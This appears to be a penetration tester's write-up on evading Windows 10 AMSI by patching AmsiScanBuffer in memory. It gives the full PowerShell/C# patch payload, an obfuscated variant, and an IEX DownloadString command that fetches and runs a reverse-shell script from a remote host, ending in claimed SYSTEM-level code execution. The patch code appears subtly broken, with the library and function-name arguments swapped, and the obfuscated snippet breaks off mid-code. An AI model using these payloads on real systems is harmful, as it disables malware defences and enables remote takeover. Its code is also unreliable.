 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline

The goal of this write-up is to evade the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) using AMSI memory patching technique. The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime.

By default, windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space.  `AmsiScanBuffer()`and `AmsiScanString()` are used by the antivirus before execution to scan the buffer and strings for suspicious activities. This ultimately prevents arbitrary execution of code.
# AMSI Evasion
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Code fragmentation involves breaking down malicious code into smaller, seemingly harmless components. This is then assembled at runtime to evade static analysis.
This approach challenges antivirus scanners that rely on signature-based detection.

##### Obfuscation: 
Obfuscation techniques are utilized to deliberately obscure the actual intent and functionality of a script. By employing various obfuscation methods, such as code encryption, renaming variables, adding meaningless code snippet to obscure intent of the script, attackers can make their code appear convoluted. This makes AMSI scanners challenging  to interpret the true purpose of the script.

#####  Memory Patching: 
Memory patching modifies the AMSI Dynamic Link Library (DLL) in memory during runtime. This technique allows threat actors to temporarily disable or alter the functionality of AMSI. This allows attackers to run malicious scripts in memory without hindrance and triggering alerts. 
#### PowerShell Downgrade: 
PowerShell downgrading is switching the current PowerShell to Windows PowerShell verison 2.0. This version does not have AMSI protection, which makes it susceptible to arbitrary code execution. By using an older version of PowerShell, attackers can bypass the built-in security measures present in newer versions and execute malicious scripts undetected.
## Proof of Concept

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through PowerShell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI successfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching
In order to bypass AMSI, the tester utilized the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"

using System;
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code, effectively avoiding the scanning of PowerShell code. This method allows the attacker's PowerShell code to execute without triggering AMSI's detection.

However, it is essential to acknowledge that the above memory patching payload might be flagged by ASMI before one could patch the ASMIScanBuffer.dll itself. Thus it is necessary to implement proper obfuscation methodologies before one delivers the payload. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

The below code snippet contains a payload that has undergone multiple layers of obfuscation.
```bash
$GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11evXUFDQD589KWR9QtwKq2Qg0mE6uMREzx7iRIZJOK2qLeZKpRqZslro01qcJC03aScqnLmSiSVJ6AIwZKGZF1aEaYGjS13PQyKmRdpmc2yMyISCN1yYuQCBZkF5i2LKBOpm7FcEshpWYz6QTzs9m5WNt6PONU73eoXpVQZKAbDUydPdN2ZdTeNdkOjDZHErYeh5b0Tqq9N = @"
// thing 
// using syStEm.CoLLeCtiONS.ArrAyLiST;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32")]
       public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11

```


After implementing effective obfuscation techniques, the tester proceeded by hosting a Python web server on port 8443 to serve a PowerShell Reverse Shell Scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the AMSI.dll malfunction, the tester successfully initiated a reverse TCP connection via PowerShell, executing the following command in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester achieved a  Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Reference
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) && [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

